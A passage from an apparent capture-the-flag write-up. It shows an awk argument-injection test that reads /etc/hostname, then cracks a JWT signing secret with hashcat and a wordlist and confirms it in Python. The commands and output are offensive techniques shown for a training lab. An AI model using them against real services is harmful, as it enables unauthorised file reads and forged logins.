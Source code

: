 If I add some more junk to the end, it’ll fail on the second file and not print the original file:

```

oxdf@hacky$ awk '//' /etc/hostname '0xdf/' hashes 
hacky
awk: cmd. line:1: fatal: cannot open file `0xdf/' for reading (No such file or directory)

```

#### Crack JWT

To make any of this useful, I’ll need to be able to change the username submitted to the site, which is read from the JWT token. The signature has to validate to do that, so I’ll need the secret used to sign it. I’ll try to crack it with `hashcat`. It automatically detects it as a JWT, mode 16500, and cracks the secret to “123beany123”:

```

$ hashcat jwt /usr/share/wordlists/rockyou.txt 
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

16500 | JWT (JSON Web Token) | Network Protocol
...[snip]...
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew:123beany123
...[snip]...

```

I’ll validate it works using Python:

```

oxdf@hacky$ python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew'
>>> jwt.decode(token, '0xdf')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3/dist-packages/jwt/api_jwt.py", line 91, in decode
    decoded = super(PyJWT, self).decode(
  File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 155, in decode
    self._verify_signature(payload, signing_input, header, signature,
  File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 223, in _verify_signature
    raise InvalidSignatureError('Signature verification failed')
jwt.exceptions.InvalidSignatureError: Signature verification failed
>>> jwt.decode(token, '123beany123')
{'username': 'christopher.jones', 'iat': 1664215381}

```
